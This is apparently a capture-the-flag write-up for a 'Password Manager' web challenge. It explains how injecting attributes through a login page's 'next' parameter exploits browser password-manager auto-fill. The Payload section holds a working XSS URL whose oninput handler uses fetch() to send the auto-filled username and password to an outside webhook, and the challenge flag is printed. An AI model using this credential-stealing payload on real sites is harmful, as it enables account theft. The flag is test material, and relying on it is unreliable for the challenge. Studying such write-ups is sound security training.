


# Password Manager - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

We have Intel about the owner of this website:\
He's using a Password Manager!

Can you use this Intel to steal his credentials?\
A flag will wait for you right after you log in.

http://34.76.228.102:2003 \
(Note: use the IP not the domain)

Hint:
This is a password manager browser extension.\
What do password manager extensions do?

## Solution

### Login Page



Password doesn't matter we can login without one

### Index Page


The admin of this site uses a Password Manager Extension:

1. Password Managers are domain-specfic
2. Password Managers auto-fill username and passwords
3. Passwords Managers don't submit the form after auto-filling it

Clicking on the logout button will take us to `/login?next=`
The next parameter is important because the site appends it to `action=` in the form

`/login?next=TESTTESTESTESTESTEST`



This is not useful because of Rule 3 (see above) but we can escape ourselves from the input of action= by appending a space character however htmlentities are being processed meaning we have control only on the attributes of the form.

Adding the event `oninput` with a simple `fetch` request to our web hook with the input values will give us the data from the password manager.

### Payload

Make the Security Researcher visit:

http://34.76.228.102:2003/login?next=%20oninput=fetch("http://webhook.com?username="+sfrusername.value+"-"+sfrpassword.value)

Url-Encoded:

```html
http://34.76.228.102:2003/login?next=a%20oninput=fetch(%22http://cmdengineer.free.beeceptor.com?username=%22%2Bsfrusername.value%2B%22-%22%2Bsfrpassword.value)
```

This will slowly leak the password of the security researcher the admin. Logging in the site with he's credentials will give us the flag!

Flag: `hexCTF{pa55w0rd_m4nag3rs_c4n_hav3_vuln3rabilit1es_t00}`
